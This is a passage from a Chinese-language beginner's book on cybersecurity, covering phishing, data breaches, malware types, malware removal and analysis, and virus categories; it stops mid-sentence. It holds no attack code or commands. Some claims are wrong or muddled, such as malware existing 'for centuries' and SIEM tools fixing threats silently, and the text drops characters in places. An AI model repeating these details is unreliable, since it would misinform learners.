网络犯罪分子利用各种手段来执行其恶意活动。其中包括：

### 社会工程学或恶意软件
如果黑客能看到人类，他们就不需要黑入你的计算机了。社会工程攻击有多种形式；通常情况下，这是通过恶意软件实现的。你的杀毒软件是否在你的屏幕上弹出了警报信息？你是否在无意中点击了恶意附件？如果是这样，那么你已经非常接近恶意软件攻击了。网络犯罪分子喜欢使用恶意软件入侵目标系统，因为它们非常有效。恶意软件是一种非常危险的软件，包括勒索软件和病毒。一旦它获得了你系统的访问权限，就会造成破坏，范围从监控你的在线活动、控制你的机器、监控你的击键以窃取敏感信息。你将在后面的章节中学习更多关于恶意软件、病毒和勒索软件的知识。

### 网络钓鱼攻击
你点击电子邮件中的链接或打开附件的概率很小。然而，考虑到涉及的危险，必须有一个令人信服的理由才会采取行动。网络犯罪分子知道这一事实，并会尽一切努力进行说服。

任何人窃取你的密码或信息的最佳方式就是跟踪你泄露此类信息。无论你的安全专业水平如何，任何人都可能成为钓鱼攻击的受害者。因此，大多数人使用双因子身份验证过程来保护自己的信息。如果攻击者偷了你的密码，除非他不知道第二个因子密钥，否则就等于没偷。

钓鱼攻击期间发生的情况是，攻击者伪装成信赖的朋友或业务伙伴并给你发送电子邮件。邮件看起来看起来是真实的，并且里面写有某种紧急性。邮件将包含一个你需要打开的链接或附件。一旦你错误地打开了邮件附件，它就会向你的系统安装恶意软件。或者，如果是链接，它会将你重定向到一个看起来真实的网站并请求登录信息。实际上，这个陷阱是为了诱导你泄露凭据。在处理这种情况时，你必须验证发者的电子邮件和附件。

### SQL 注入攻击
凭借你有限的计算机知识，你知道我们使用 `SQL`（结构化查询语言）与数据库通信。这些数据库对于存储相关信息至关重要。大多数为网站和服务存储敏感信息的服务器利用 `SQL` 服务来管理数据。这种特定的攻击专注于 `SQL` 数据库并泄露敏感信息。如果此类服务器存储客户的个人详情（如密码、信用卡号等），问题就会增加，这对于攻击者来说是一个获利且诱人的目标。

## 网络安全基础——保护你的计算机网络免受病毒和恶意软件侵害

间谍软件、勒索软件、蠕虫、病毒和黑客只是可能损害你的网络和计算机系统的几个。。当你发现仅仅通过电子邮件中的恶意链接就能轻易窃取你的信息时，情况变得更加糟糕。然而，有多种攻击或利用计算机的方法。同样，我们也有保护自己免受这些黑客的方法。在本节中，我将探索保护计算机网络免受病毒和恶意软件的重要方法。

### 使用复杂密码并偶尔更改
提高安全性的一种简单方法是使用强密码。你应该使用强密码，除了数字和字母外，还包括 `&*!@#` 等特殊字符。复杂密码的长度应在 8-17 个字符之间。此外，不要在设备上编写或存储密码，因为这是黑客窃取你信息的简单方法。你应该偶尔更改密码，因为这有助于防止任何强制密码破解。保护网络安全的最佳实践是每 3 个月更新一次密码。

### 安装杀毒软件
保护你的计算机网络和系统的第一步是安装杀毒软件来保护你免受病毒和恶意软件的影响。杀毒软件可以主动扫描试图渗透你的系统文件、电子邮件或操作系统的病毒。重要的是，你决定使用的杀毒软件必须定期更新。这些更新至关重要，因为每天都会产生新的病毒，而这些更新是避免任何可能攻击的关键。

### 安装反恶意软件和反间谍软件程序
间谍软件和恶意软件对你的计算机网络造成的损害与病毒一样。除了安装的杀毒软件外，安装反间谍软件和反恶意软件程序。你应该偶尔更新这些软件以帮助删除和隔离任何恶意软件或间谍软件。大多数人的做法是只安装杀毒软件，并认为自己已经免受任何可能危险的保护。

### 定期系统备份
存在各种类型的恶意程序，如勒索软件、恶意软件、病毒、蠕虫等，它们可以破坏你的文件。保护自己免受任何攻击的良好方法是创建定期备份。例如，如果你持续备份计算机，那么当你被勒索软件攻击时，你可能会有一个利用的东西。记住，攻击者在用勒索软件攻击你的系统时所做的是加密你的数据并期望你支付赎金以解密这些文件。然而，如果你有之前的备份，你就不必担心支付此类赎金，因为有时无法保证黑客在付款后会解密文件。你可以使用外部驱动备份你的数据。然而，最近我们看到了云存储系统的兴起。

### 安装防火墙


防火墙是你保护网络免受攻击的必不可的安全工具。它充当计算机内部的边界，并阻止任何未经许可的入站和出站访问。当你想要配置或设置它时，请确保使用操作系统内置的防火墙功能。你可以根据自己的偏好更新防火墙设置。

### 小心处理你的电子邮件

网络犯罪分子可以通过各种方式利用你的电子邮件。他们可以在你的邮件中附加病毒，当你打开附件时，病毒就会被触发。重要的是，你应该只阅读或打开来自你认识的人邮件。如果发送给你的邮件来自你不认识，请尝试立即删除它。

### 使用互联网时要警惕

需要明确的是，没有任何网站是绝对安全的。无论它们看起来有多安全，都存在包含恶意软件和间谍软件的可能性。手指点一下，你的计算机就可能感染病毒、恶意软件和间谍软件。随着网络威胁的增加，我们看到了许多伪装成真实网站的恶意网站。然而，在进入任何网站时，请确保检查名称、拼写，并在发现任何问题时进行必要的修正。此外，避免点击图形、广告、弹出窗口以及指向未验证网站的链接。

计算机网络和系统的保护始于你——用户。你应该花时间了解基础网络安全。下载并阅读此书说明你已经迈出了正确的一步。不要止于此；请确保将书中中学到的所有内容付诸实践。

### 安全方法

从一个组织到另一个组织的安全方法可以使用不同的模型来实现。然而，在本书中，我将总结大多数组织使用的四种重要方法。

- **无安全 (No security)**：这是最简单的实现模型，个人或组织决定不实施任何形式的安全措施。然而，在这种模型下，入侵者可以攻击该组织。
- **通过隐性实现安全 (Security through obscurity)**：这种特定的安全模型拥有一个安全的系统；尽管，没有人知道任何安全程序的存在或内容。遗憾的是，这种方法不是长久之计，因为黑客有办法了解安全结构。
- **主机安全 (Host Security)**：在这一安全模型中，每个系统都配备了自己的安全措施。这是最安全的方法之一。然而，其缺点在于在组织内部的复杂性和多样性，这增加了执行难度。
- **网络安全 (Network security)**：随着组织趋于增长和多样化，很难跟上安全挑战。然而，使用网络安全模型有助于组织专注于通过各种主机控制对其网络的访问。网络安全模型是实施的最有效且可扩展的模型之一。

## 重要安全管理实践

良好的安全实践至关重要。良好的安全管理实践要求你制定一套安全策略。实施安全策略相当容易，因为它对确保良好的安全管理实践具有重大意义。以下是良好安全策略的四个重要方面。

- **合法性 (Legality)**：策略是否符合每一项法律要求？
- **文化问题 (Cultural issues)**：策略是否符合人们的信念、工作风格和预期？
- **功能性 (Functionality)**：实现安全的机制是什么？
- **可负担性 (Affordability)**：实施这种安全的成本是多少？

## 第 3 章：网络安全违规

如今，由于网络安全攻击和数据泄露后果的日益增加，机构正投入大量资金数字基础设施。根据 Ponemon 研究所最近的一项调查，仅 2018 年数据泄露造成的平均成本较往年增长了 6.4%，总计 386 万美元。你知道互联网上被盗文件的平均成本已增加到 1.48 亿美元吗？如果我们不采取行动保护数据，这些数字会随着时间的推移不断增加。

考虑到数据泄露不断增加的成本和日益的风险，各行业的个人和公司必须确保他们理解自己在与什么作斗。这非常惊，考虑到黑客和网络犯罪分子利用相同的漏洞，而这些漏洞是不同行业以往错误的产物。事实上，另一份关于“Verizon 2018 数据泄露”的调查报告显示，自 2014 年以来，约 90% 的数据泄露和 94% 的安全事件属于相同的类别。

这意味着组织和个人必须学习新花样来防止任何形式的数据泄露，同时投资相关工具来弥补导致此类情况发生的网络安全漏洞。虽然这对于不同的人来说可能意味着不同的事情，但重要的是在网络安全违规的背景下，准确定位你作为个人可能面临的风险。此外，你不仅应该识别它，还应该实施解决方案，以保护你的数据并维护你的在线隐私。

为了解决这个问题，必须提出清晰的问题以获得最佳解决方案。例如，为什么会发生数据泄露？你经常面临哪种类型的数据泄露？你可以做什么来避免这种情况？一旦你开始为这些问题提供解决方案，你就越来越接近能够保护你在线形象的方案。

### 数据安全违规包含什么？

并不是所有人都能深刻理解数据安全违规包含什么。安全数据泄露的性质可能因个人、网络架构或组织规模而异。然而，无论什么程度，数据泄露简单是指对私人信息的未经授权或非法访问。这些网络犯罪分子和黑客的意图不同；但我们知道的一点是，他们访问不属于自己的数据和信息是非法的。此外，重要的是强调，数据泄露还包括信息的外泄，某些人在没有所有者适当批准的情况下访问了这些信息。

### 数据泄露是如何发生的？

尽管有多种数据泄露，但它遵循特定的模式。在本章之后，我将详细介绍这些不同的数据泄露类型。了解网络犯罪分子如何成功实施数据安全违规将有助于用户和各种网络安全专家更好地评估任何漏洞，并有效准备以阻止他们的计划。



从上面的图中可以看出，数据泄露可以在四个不同的阶段发生。这些包括：

- **探测阶段 (Probe Phase)**：在这个阶段，恶意方开始努力了解网络和整体环境。他们从探测你的网络安全防御开始，检查你的密码，分析如何最终发起钓鱼攻击，或者寻找任何没有最新安全补丁的旧软件。
- **初始攻击阶段 (Initial Attach Phase)**：一旦他们在探测阶段获得成功，他们将对你的网络发起第一次打击。这主要是通过电子邮件实现的，试图诱骗你点击特定的网站。这将进一步带你进入恶意网站或损坏一个破坏你工作流的应用程序。


### 扩展攻击阶段
在初始攻击后，你的系统会变得脆弱，从而为他们提供了评估下一步行动的机会。通常情况下，这可能涉及利用他们可能掌握的任何手段对整个网络进行打击，并获取尽可能多的信息。

### 数据窃取阶段
由于在不同时间范围内可能发生的网络安全漏洞类型各异，网络犯罪分子可能会尝试外泄尽可能多的数据。或许，他们会保持低调，以了解他们能窃取的数据量。

黑客或网络犯罪分子从个人或组织窃取的特定数据各不相同。然而，根据 Verizon 进行的研究，76% 的网络安全数据泄露是以财务为目的的。或者，这可能包括对敏感个人数据、政府记录、专有信息或客户信息的交易。我们已经看到 Uber、Yahoo 和 Facebook 最近的泄露事件，网络犯罪分子利用这些被盗的数据获取个人利益。此外，数据安全泄露跨越了各个领域，没有任何一个行业可以幸免。

## 数据安全泄露类型

我已经解释过，在避免个人和组织数据泄露方面，我们确实有各种注意事项。任何数据攻击的精确性质将取决于个人或组织的特定漏洞以及攻击者的意图。在明确这一点后，我们必须理解数据安全泄露有类型，包括密码攻击、勒索软件攻击、恶意软件攻击、钓鱼攻击和人为错误。然而，我将解释我们更容易遇到的几种基本数据安全泄露类型。这些包括：

### 人为错误
有时，我们是数据泄露的主要原因，我将其归类为`human error`。这通常不是故意的，而是意外，因为用户没有意识到自己的活动。例如，如果你在一个组织工作，IT 团队可能会由于服务器配置错误无意暴露客户信息。此外，员工也可能是社会工程攻击的受害者。这些攻击的目的是欺骗该组织中的个人下载看似安全的文件或点击恶意链接。CompTIA 的另一项研究表明，发生的数据泄露中有一半是人为错误导致的。因此，组织和个人在点击链接或下载特定文件时必须非常小心。

### 设备丢失
安全数据泄露可能因为个人疏忽或直接被抢劫导致设备丢失而发生，这构成了巨大的安全风险。很多时候，人们很粗大意，遗留 U 盘、平板电脑、笔记本电脑和智能手机等设备，导致其数据和网络不受限制地访问。由于他们没有注意或没有意识到设备的存在，为这些黑客和网络犯罪分子提供了窃取或入侵其私人数据的机会。在任何情况下，这些罪犯都会绕过设备的安全性并访问用户信息。

### 网络攻击
在我们目前讨论的安全数据泄露类型中，这种类型往往更为常见。今天，网络攻击给全球带来了超过 6000 亿美元的损失，这也是许多组织对其潜在威胁感到担忧。然而，个人和组织必须保持警惕以避免这些威胁。遗憾的是，网络犯罪分子也毫不留情，他们使用钓鱼软件渗透人们的网络，部署恶意软件感染其计算机系统，并在获取其敏感信息后使用勒索软件欺骗个人和公司。

### 内部数据泄露
有时，非意外的数据泄露可能是真正的威胁。不满的员工或处于失业边缘的人可能会从组织中窃取重要信息。他们可以在未经事先许可的情况下访问并传播这些信息。然而，组织应该小心，因为这可能并非员工的意外泄露。

## 如何防止数据安全泄露

防止数据安全泄露的责任不仅属于专家，因为每个人都参与其中。从这些犯罪分子手中保护你的数据是一项艰巨的任务。为此，了解应采取哪些步骤来防止任何责任的数据泄露至关重要。传统上，数据安全泄露的生命周期包括以下五个阶段。

### 发现
在此阶段，安全专业人员的目标是处理敏感信息，旨在识别任何脆弱数据。犯罪分子发现这些敏感信息是易攻目标。你的个人信息（包括密码、信用卡详情）是这些犯罪分子寻找的信息的一部分，采取相关步骤保护它们是非常重要的。

### 检测
在发现阶段之后是检测阶段，在该阶段可以识别可能的安全威胁。如果不保持警惕，你可能会允许网络犯罪分子访问你的信息。例如，如果你有未更新最新安全补丁的应用程序，你就让自己暴露在这些攻击者面前。重要的是，你应该定期检查待处理的更新。

### 优先级排序
在此阶段，你的目标是对风险进行优先级排序，并修复你可能向攻击者开放的任何漏洞。此外，你应该利用数据操作和安全信息的结合情报，精准定位这些犯罪分子可能攻击的位置。此外，你应该关闭此类漏洞以保护你的设备。为了做到这一点，你需要聘专业人员对你的安全网络进行审计。

### 修复
该阶段的目的是解决你在过程中识别并优先考虑的任何可能威胁。例如，修复措施可能是为你过时的软件安装最新的安全补丁，或对敏感信息进行加密。

总之，有必要策略性且有效地管理整个过程。值得的是，防止安全数据泄露的过程是一个持续的过程，因为对计算机网络和设备的威胁正在增加。

## 安全数据泄露防护工具



对于网络安全专业人员和 IT 团队来说，防止网络安全泄露是一项极其巨大的任务。此外，考虑到过去十年内网络威胁的影响和增加，这非常有挑战性。在上一节中，我提到了如何防止数据泄露，但仅靠这些不足以应对潜在威胁。然而，有一些软件应用程序可以帮助保护数据免受犯罪分子侵害。这些软件应用程序包括：

### 访问控制软件
今天，我们拥有可以帮助管理访问权限的软件，并在组织工作时帮助员工分配准确的权限。这些应用程序不仅适用于组织，你也可以设置它们来控制设备的基本安全。通过这种控制，只有授权的人员才能访问你允许的特定信息。在某些情况下，这些软件应用程序可以根据你设置的指令帮助审核轨迹并生成报告。

### 安全信息和事件管理软件


这些应用程序的主要目的是日志管理，在组织内部中使用时非常有效。它能帮助收集、存储、分析和报告相关的日志数据。此外，它们还监控实时安全警报，并在不通知你的情况下解决任何潜在威胁。

## 杀毒软件

大多数人忽视了杀毒软件的重要性。你可以在“计算机病毒”的章节中阅读更多关于杀毒软件的内容。它们可以帮助你免受各种威胁，同时协助你定位并清除任何渗透到系统的潜在威胁。杀毒软件可以帮助你免受勒索软件、间谍软件、广告软件、蠕虫、木马以及任何恶意活动的侵害。拥有一个可靠且强大的杀毒软件将有助于应对任何威胁，并让你对可能发生的任何攻击拥有完全视野。

无论你选择实施哪种特定的安全泄露工具，都应该确保其功能是强的。此外，你的设备需要不断更新和补丁以防止任何入侵。无论你决定使用什么软件，请确保它将数据加密放在首位。今天出现了新的网络威胁，它们旨在规避我们目前的检测方法。因此，你的安全解决方案必须不断进化，以领先于这些安全漏洞。最后，如果你想保护你的数据和在线隐私，你必须评估任何可能的威胁，了解这些攻击是如何发生的。一旦你识别了这些威胁，就可以制定计划并使用相关的安全工具来缓解它们。

## 第 4 章：恶意软件——攻击、类型与分析

## 引言

恶意软件是任何对你的计算机网络或系统有害的软件、文件或程序。恶意软件与普通程序的不同在于，它可以在你毫无察觉的情况下在你的网络或系统中传播或复制自己，同时造成严重的破坏。恶意软件非常强大，具有降低系统性能同时对你的网络造成毁灭性破坏的潜力。想象一种情况：你的计算机系统被感染且无法使用。系统中的数据变得不可。这就是恶意软件攻击的结果。

恶意软件攻击并非起源于互联网时代；它们已经存在几个世纪。然而，随着时间的推移，它们不断演变并对宿主变得更加致命。以下是历史上发生的一些恶意软件攻击：

*   **Melissa**：1999 年，David L. Smith 创建并发布了“Melissa”病毒，该病毒嵌入在 Microsoft Word 文件中。他设计文件的方式使其包含不同网站的密码，诱导受害者打开文件。一旦无知的受害者打开文件，宏就会执行并将病毒重新发送到用户的地址录。它专门针对地址录中的前 50 个人以持续其攻击。然而，安全专家将病毒追溯到 Smith，他因此被判处入禁 10 年。
*   **My Doom**：这种恶意软件不是病毒，而是蠕虫，这意味着它不需要任何人类的干预即可传播到受害者的网络。2004 年，“My Doom”是世界上传播最快的电子邮件蠕虫之一。垃圾邮件者负责传播这种病毒。恶意软件的名称源于其代码中的名称。My Doom 在那一年是致命的，影响了微软和谷歌等庞大公司。当然，这些公司在它的破坏过程中损失了数十亿的资金。
*   **Stuxnet**：这种恶意软件被认为是一种对伊朗核电站造成硬件级破坏的复杂恶意软件。它通过 USB 驱动器访问系统并感染了系统。该恶意软件使用生成伪造数字证书的代码，使其能够规避任何形式的检测。它通过系统的网络验证系统的控制线，该线控制着核离心机。然后它利用了系统并最终摧毁了它。
*   **WannaCry**：截至今日，WannaCry 攻击是影响了 100 多个国家最大的勒索软件攻击。勒索软件利用了一个 SMB 漏洞，微软已经在 2017 年 3 月确定并修补了该漏洞。运行过时补丁的系统都受到了此攻击的影响。它的运行模式与上述攻击本质不同。它在没有用户干预的情况下通过用户网络传播，并开始加密整个系统，除非用户支付赎金，否则用户将无法使用系统。此类攻击在扩散到其他行业之前，重点关注了医疗保健行业。Marcus Hutchins 发现了一个致命机制；然而，当恶意软件更新时，恶意软件又找到了另一种绕过该更新的方法。

## 恶意软件如何工作

网络犯罪分子和黑客是恶意软件的作者，意图是对网络或系统造成破坏。他们使用各种虚拟和物理方法传播这些恶意软件，从而感染网络和设备。例如，恶意程序可以通过 USB 驱动器发送到你的系统。另一种方法可能是通过路过的下载，在受害者不知或未许可的情况下，自动将恶意程序下载到受害者系统。

另一种常见的攻击是钓鱼攻击，在看似合法的电子邮件中附加恶意链接或附件。一旦用户打开链接，恶意软件就会在个人不知情的情况下开始执行。有时，复杂的恶意软件通常使用命令控制服务器，这允许攻击者连接到受害者的系统并提取任何敏感数据。此外，无论他们在哪里，都可以远程控制此类受损的服务器或设备。

演变的恶意软件涉及混淆和规避技术，旨在欺骗用户、反恶意软件产品和安全管理员。这些技术大部分依赖于简单的技巧，如使用网络代理来伪造 IP 地址或隐藏恶意流量。还有复杂的威胁，例如多态恶意软件。这种恶意软件可以不断更改其基础代码，以规避杀毒软件或基于签名的检测工具的任何形式检测。

## 恶意软件类型

根据其特征，恶意软件有多种。以下是恶意软件的一些类型：

*   **病毒**：这是流行的恶意软件类型之一，具有执行并到其他文件或程序的能力。它通常需要人类参与来运行和传播其操作。我们还有各种类型的病毒，包括文件病毒、主引导记录病毒**宏病毒、多态病毒和隐形病毒。你可以在下一章“计算机病毒与预防技术”中阅读更多关于这些的内容。
*   **木马**：这种特殊的恶意软件被设计成显示为合法的程序或文件，意图获取系统或网络的访问。合法的软件和文件与恶意软件捆在一起，一旦软件安装到系统中，恶意软件也会被安装并开始执行。
*   **数据发送木马**：这些木马的工作是窃取存储在你计算机中的敏感数据并将其传输给攻击者
*   **远程访问木马**：这种木马允许黑客和网络犯罪分子在所有者不知情的情况下远程访问你的计算机。攻击者通过秘密通道做到这一点。
*   **安全软件禁用木马**：在这种情况下，木马会禁用用户的杀毒软件和防火墙系统，这样他们就可以下载恶意文件并成功运行而没有任何任何阻碍。


- **破坏性木马**：你绝对不希望这种木马访问你的系统，因为它会破坏你所有的服务和文件。
- **蠕虫**：这种程序的功能类似于病毒，但不需要任何人工参与即可运行和传播。
- **勒索软件**：这种恶意软件的主要功能是在加密整个系统之前感染用户系统。一旦完成，攻击者就会要求支付赎金以营救文档。目前无法保证在支付赎金后，攻击者会解密系统。
- **垃圾邮件**：这些通常被封装在附件和电子邮件中。用户被诱骗点击此类附件或邮件，最终会在系统中安装病毒。
- **根内核攻击包（Rootkits）**：这些工具很难检测且无法移除。唯一的补救措施很可能是格式化受感染的系统。
- **间谍软件**：这种恶意软件像间谍一样潜伏你的计算机上。它会监控并记录用户在系统上的活动。
- **广告软件**：它们用于跟踪用户的下载历史和浏览活动，意在展示横幅或弹出广告。它们会产生不必要的广告，诱导用户在线购买物品。
- **键盘记录器**：也被称为系统监控器，它们记录你在键盘上的击键。通过这种方式，它们通过键盘记录器窃取你的信息。

# 恶意软件的检测、预防与移除

用户可以通过多种手段检测到恶意软件的存在。这些包括：
- 自动重启和关机问题
- 关机异常
- 无法删除某些类型的文件
- 随机出现的快捷方式或文件夹
- 系统无响应且运行缓慢
- 运行不必要的程序或软件
- 系统默认设置发生更改
- 恶意软件攻击

通过这些症状，你可以检测出你的网络或计算机何时被恶意软件感染。然而，如何防止这些问题再次发生呢？以下步骤将会有帮助：
- 清理网络和系统的任何恶意软件感染（移除过程）
- 确保你的系统和网络未来免受任何潜在攻击的影响（预防过程）

### 对于移除过程，你可以遵循以下步骤：
- 断开计算机的网络连接。此外，断开任何内网或外连接。
- 不要连接任何外部驱动器，因为它可能帮助恶意软件传播，从而进一步感染你的系统。
- 使用更新过的杀毒软件扫描你的系统。确保执行的是全扫描而非快速扫描。
- 更新所有软件和 Windows 补丁。完成后，重启系统以清除任何恶意软件。
- 如果上述步骤不起作用，你需要格式化系统并遵循下方的预防步骤。

### 既然你可以移除任何恶意软件痕迹，如果你想防止未来再次发生，建议采取以下步骤：
- 始终扫描你的外部驱动器
- 定期更新你的 Windows
- 使用高级杀毒软件。此外，确保执行全系统扫描
- 避免点击来自任何不可信源的附件或收件邮件
- 不要从非法来源下载任何软件
- 频繁对你的重要文档进行备份
- 如果不需要，在使用 Excel 时不要启用宏

# 恶意软件分析

恶意软件分析是捕获并分析恶意软件行为以进行检测和预防的过程。大多数杀毒公司通过进行恶意软件分析来更新特征库，以便检测并隔离任何恶意软件。

你现在可以明白为什么更新杀毒软件非常重要。这一特定方面针对那些对网络安全感兴趣的人。网络安全领域的职业之一就是恶意软件分析。因此，以下指令是针对恶意软件研究人员和分析师的，因为如果分析不当，可能会适得其反。

以下是恶意软件研究人员和分析师使用的两种恶意软件分析技术。

### 静态分析
这涉及对恶意代码进行反向工程以理解，并在准备补救措施的同时进行。幸运的是，这种分析不会对你的系统造成任何伤害；但由于以下原因，学习和完善它并非易事：
- 只有少数安全专业人士可以理解或编写代码，因为恶意软件是经过编码的
- 你必须识别问题所在，这需要经验
- 很难获取恶意软件样本

### 动态分析
这种分析比上一种容易；尽管如此，如果恶意软件已进入高级阶段，它非常危险且无效。分析之所以无效，是因为某些恶意软件可以检测到自己何时运行在开放环境或实验室。当它们检测到任何分析工具时就会停止运行。

此外，如果恶意软件设置了定时攻击，可能会影响其有效性。该技术要求你在隔离环境中运行恶意软件以确定其行为。其行为可以分类为：
- 文件系统行为
- 网络行为
- 系统更改
- 注册表更改

尽管如此，这种技术是危险的，因为：
- 它会对你的系统造成永久性损害
- 它可能会突破隔离环境并影响你的主机系统

不同的恶意软件攻击计算机系统的意图不同。这些可能包括创建僵尸、占用你的带宽、感染文件、破坏数据等。因此，你应该理解各种恶意软件类型以及可能的规避方法。如果你正努力成为一名恶意软件分析师，你应该理解恶意软件是如何工作的，识别它们，并创建相关的特征来识别它们。此外，恶意软件攻击已经变得先进，但它们的意图没有改变。因此，在敏感信息面前你应该重视安全，因为这是黑客索要赎金的媒介。此外，确保你的设备受到保护，并避免使用未通过高级杀毒软件充分审核的外部驱动器。

# 第 5 章：计算机病毒与预防技术

## 引言

在今天，拥有计算机病毒的想法是令人恐惧且令人不适的。没有人希望处于那种境地：安全专家告诉他们的计算机已被病毒感染，且没有办法可以营救他们的文件和重要文档。

计算机病毒由三个不同的部分组成，包括感染机制、触发器和载荷。不要问我是如何知道这些的。嗯，下面的解释会让你恍然大明的。感染机制涉及病毒如何传播，通常是通过修改包含病毒副本的代码来实现。实际上，感染媒介是病毒通过其介质传播的方式。此外，某些病毒使用多种方式来感染文件。触发器部分处理是否分发载荷。最后，载荷涉及无意或有意地损坏系统。除了感染机制外，触发器和载荷部分是可选的。

计算机病毒可以通过以下方式传播到你的系统：
- 盗版软件
- 访问受感染的网站
- 安装/下载媒体播放器、工具栏、免费游戏和其他系统实用程序
- 与朋友分享图片、文件和音乐
- 安装主流软件应用程序
- 连接受感染的外部存储设备

什么是病毒？


病毒是一种程序，它附着在原始程序代码上，每当该原始程序运行时它就会运行，意图在用户不知情的情况下造成危害。计算机病毒通常在你不知或未经许可的情况下自我复制。通常，它们有一个感染阶段（在此阶段进行再生）和一个攻击阶段（在此阶段它们制造破坏）。

病毒的另一种定义是：一种程序，通过附着在另一个可执行文件中来重复或复制自己的代码，使得每当该可执行文件运行时，病毒代码就会执行。

# 计算机病毒的类型

> 计算机病毒可以有多种分类方式，但在书中，我将根据它们的正交轴进行分类。这意味着我们将根据病毒试图感染的目标类型，以及其用于躲避防病毒软件和用户检测的方法来观察病毒。分类病毒的简单方法之一基于它们试图感染的对象。在本节中，我将探索其中的三种方式，包括可执行文件感染器、引导区感染器和宏病毒（数据文件感染器）。

### 引导区感染器

尽管引导病毒的操作顺序在不同机器上有所差异，但它遵循一个简单的过程。你开启系统，基于 ROM 的指令开始运行。然后它执行自检、设备检测和初始化测试。紧接着识别引导设备并从设备中读取引导块，然后将控制权交给已加载的代码。整个过程被称为主启动过程。此外，在此过程中加载的代码会加载另一个更大的程序，该程序能够理解引导设备的文件系统结构。

虽然病毒正在变得过时，但并不意味着它们不会出现。引导区病毒主要影响用于启动计算机的软磁盘。然而，现代系统不再使用软磁盘，但这些病毒仍然可能出现在系统的主引导记录（MBR）中。它们通常发生在计算机的分区存储设备中。尽管如此，由于互联网的发展，这些威胁现在得到了缓解。

### 直接动作病毒 (Direct Action Virus)

这种病毒在 1998 年震惊了世界，通常在执行被感染的文件时被触发。它是一种传染性病毒，不会隐藏在计算机内存中或进行自我安装。相反，在病毒激活之前，加载程序会被直接发送到你的计算机上。这种病毒唯一的局限性是，它只在你执行被感染的文件时被激活。

直接动作病毒的做法是将自己附着在 `COM` 或 `EXE` 文件上，等待有人通过点击文件来激活它。一旦文件被执行，它就会跳到计算机系统中，在你的计算机目录中寻找类似的文件以传播病毒。尽管如此，不要害怕，因为病毒不会删除任何文件，也不会影响你的计算机性能。除了让你的某些文件无法访问外，对用户的影响是微乎其微的，可以通过可靠的防病毒软件移除。

### 驻留病毒 (Resident Virus)

这种特殊的病毒是文件感染器。与不会自我安装直接动作病毒不同，驻留病毒会将自己安装到计算机中。即使原始源文件已被感染并清除，驻留病毒也会让文件继续工作。大多数安全专家认为，驻留病毒比其表兄弟直接动作病毒更致命。

简单来说，病毒附着在你的计算机内存中，影响文件，并在运行运行病毒的同时留下原始文件。痛苦的部分在于它们很难被发现。更棘手的是移除它们并不容易。驻留病毒由慢速感染器和快速感染器组成。慢速感染器很难区分，因为它们的症状增长缓慢。另一方面，快速感染器虽然更容易识别，但会对系统造成巨大的破坏。

更遗憾的是，它们可以寄生在防病毒软件上，并感染防病毒软件尝试扫描每一个文件。然而，要删除它们，你需要安装操作系统补丁。

### 多态病毒 (Polymorphic Virus)

这种特殊的病毒是任何防病毒程序最难检测或移除的病毒之一。当多态病毒攻击你的系统时，这些防病毒程序很难保护你，因为软件具有黑名单特定病毒变体的能力。然而，多态病毒每次复制时都会改变其二进制模式。当防病毒程序遇到多态病毒时，它将其视为系统中的不同软件。这使得它避开了防病毒的黑名单。

### 部分病毒 (Multipartite Virus)

如果你观察过，病毒使用两种方法传输它们版本。这可以通过一种方法或单一载荷。然而，就像总是想要更多的奥利弗·金斯特一样，部分病毒想要全部。这种特殊病毒以各种方式传播，并感染文件和操作系统。此外，部分病毒可以同时影响可执行文件和引导区文件，允许它们快速地传播。这种像“双刃剑”一样的攻击让任何人难以移除病毒。你决定删除程序文件也没关系，因为病毒留在引导区中。从引导区，一旦你打开计算机，它就会立即自我复制。

### 特洛伊马与蠕虫 (Trojan horse and Worms)

听说过特洛伊马吗？你认为它们是什么？嗯，特洛伊马是一种计算机程序，它让特洛伊马攻击从远程位置控制用户的设备。特洛伊马伪装成对用户有用的程序，一旦被安装，它就会创建后门、安装恶意载荷、危及用户信息、安装不希望的程序等。

以下是攻击者通过特洛伊马可以执行的某些活动：

- 通过导致蓝屏、系统崩溃等损坏用户的计算机。
- 在执行分布式 DoS 攻击的过程中，它将个人计算机作为 `Botnet`（僵尸网络）。
- 修改用户的系统文件
- 窃取敏感信息，包括信用卡、存储的密码等。
- 查看用户的屏幕截图
- 记录用户在键盘上按的所有键，并将信息发送给攻击者。通过这种方式，攻击者可以收集用户密码、信用卡信息和其他敏感信息。
- 通过非法资金转账进行电子货币盗窃。
- 下载用户的浏览数据

另一方面，蠕虫是一种恶意计算机程序，它通过计算机网络进行自我复制。网络罪犯或黑客可能会使用蠕虫执行此类活动：

- 在用户的计算机上安装后门；该后门可用于创建僵尸计算机，用于执行 DoS 攻击、垃圾邮件等。此外，其他恶意软件可以利用此后门。
- 安装破坏性载荷代码，该代码中携带蠕虫。
- 在复制时通过占用网络带宽来减慢用户的计算机网络。



# 互联网与病毒

以前，病毒通过软磁盘等物理介质从一个计算机系统缓慢传播到另一个系统。然而，随着技术的进步，发生了许多变化。今天，我们不再使用软磁盘将信息从一个系统传输到另一个系统。人们可能会认为病毒的传播应该结束了。然而，这是毫无根据的，因为今天，互联网作为病毒传播的媒介。


我们有一种我所谓的“常规病毒”，对我来说，这就是我们可以在互联网上看到的危险。由于以前的传播手段被削弱，常规病毒正在利用新的方式来传播其影响。常规病毒可以通过两种方式传播：

